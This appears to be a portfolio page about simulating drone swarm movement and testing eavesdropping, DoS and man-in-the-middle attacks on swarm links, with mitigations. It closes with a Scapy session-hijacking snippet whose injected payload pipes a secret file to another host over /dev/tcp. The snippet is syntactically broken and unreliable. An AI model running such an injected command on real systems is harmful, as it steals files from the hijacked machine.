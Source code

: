 ```yaml
---
layout: project
type: project
image: http://www.nationaldefensemagazine.org/-/media/sites/magazine/2023/12/swarm-vp-wed-pm.jpg
title: "Unmanned Swarms"
date: 2024
published: true
labels:
  - Robotics
  - Simulation
  - C++
  - Python
  - Wireless Attacks
summary: "My team simulated and researched how drone swarm communications could be intercepted wirelessly."
---
```



My team and I developed a simulation of drone swarm movements using C++. We then conducted tests to explore methods for intercepting the communication between the drones, aiming to assess vulnerabilities in the system and potential defense strategies.

For the simulation, we needed to replicate the movement patterns of unmanned drones. Specifically, we implemented autonomous wall-following, a feature that enables a drone to navigate along a vertical surface, such as a wall, while maintaining a consistent distance. We achieved this by developing an algorithm that allows the drone to detect the proximity of the wall, adjust its trajectory, and follow the contour of the surface. In practical terms, this functionality is especially useful in environments like indoor spaces, tunnels, or urban areas where structures and boundaries are integral to navigation.

Our code incorporated the Gauss Markov mobility model, which adjusts to varying levels of randomness. In this model, speed and direction are derived from a Gaussian-distributed random variable. This approach is effective for simulating the movement of vehicles or drones that exhibit inertia, where future trajectories are influenced by their current state. The model operates within predefined physical boundaries, defined as a 2D box with specific X and Y limits. The mobility model updates the position of each drone at regular time intervals. A smoothing factor balances the randomness and the influence of the previous state in new state calculations. 

We experimented with different types of attacks on the drone swarm communication system with Python scripts. Passive attacks involved eavesdropping on wireless communications without altering data or affecting system operations, allowing us to quietly gather information. We also tested Denial of Service (DoS) attacks by flooding the network or specific devices with excessive traffic to disrupt or disable communication. Lastly, we explored Man-in-the-Middle (MitM) attacks, where communication between two parties was intercepted and potentially altered without their knowledge. 

These experiments helped us assess the vulnerabilities of unmanned drone swarm communication systems. To mitigate these attacks, we implemented several solutions, including strong encryption protocols to secure data transmitted over the wireless network, ensuring confidentiality and integrity. Additionally, we employed Frequency Hopping Spread Spectrum (FHSS), a technique that randomly switches communication frequencies, making it significantly more difficult for attackers to jam or intercept signals, thereby enhancing the resilience of the system.

Here is some code that illustrates how we hijacked the wireless communication:

```py
print("SENDING SESSION HIJACKING PACKET.........")
 IPLayer= IP(src="10.0.2.5", dst="10.0.2.6")                   //set IPS
 TCPLayer= TCP(sport=' ' , dport=23, flags="A",                //set Ports and Flag
 seq=' ', ack=' ')                                             //set sequence and acknowlege
 Data = "\r cat /home/seed/secret > /dev/tcp/10.9.0.1/9090\r"  //set malicious packet
 pkt = IPLayer/TCPLayer/Data                                   //set packet type
 ls(pkt)
 send(pkt,verbose=0) 
```
